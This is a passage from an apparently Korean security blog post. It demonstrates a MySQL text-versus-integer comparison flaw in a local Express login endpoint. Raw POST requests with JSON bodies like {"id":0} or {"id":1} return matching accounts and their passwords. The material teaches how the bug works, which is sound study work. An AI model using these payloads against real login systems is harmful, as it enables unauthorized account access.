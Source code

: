 서버로 부터 위와 같은 응답이 왔습니다.

이유를 설명 드리자면 MySQL의 id는 text Type입니다. 0인 int형 숫자와 비교했기 때문에 숫자로 시작하는 id가 아닌 `admin`, `guest`의 결과 값을 확인할 수 있게 됩니다.

```
POST http://127.0.0.1:3000/login HTTP/1.1
Host: 127.0.0.1:3000
content-type: application/json

{"id":[0]}
```

위와 같이 `{"id":[0]}`은 `{"id":0}`과 똑같은 결과가 돌아옵니다.

그렇다면 0이 아닌 다른 숫자를 입력 했을 땐 어떤 결과를 나올까요?

```
POST http://127.0.0.1:3000/login HTTP/1.1
Host: 127.0.0.1:3000
content-type: application/json
Content-Length: 8
Pragma: no-cache

{"id":1}
```

![/assets/2020-10-01/202010_soo3.png](/assets/2020-10-01/202010_soo3.png)

<center><b>MySQL Query Log</b></center>
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 26
Date: Tue, 29 Sep 2020 13:13:15 GMT
Connection: keep-alive
Cache-Control: no-cache

[{"id":"1test","pw":"pw"}]
```

1을 넣으면 위와 같은 이유(text와 int의 비교)로 1로 시작하는 계정인 `1test`가 돌아옵니다. 

```
POST http://127.0.0.1:3000/login HTTP/1.1
Host: 127.0.0.1:3000
content-type: application/json
Content-Length: 8
Pragma: no-cache

{"id":2}
```

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 26
ETag: W/"1a-RTcXGpGSUcZVtJ0k1TC9IOCdYLg"
Date: Tue, 29 Sep 2020 13:13:18 GMT
Connection: keep-alive
Cache-Control: no-cache

[{"id":"2test","pw":"pw"}]
```
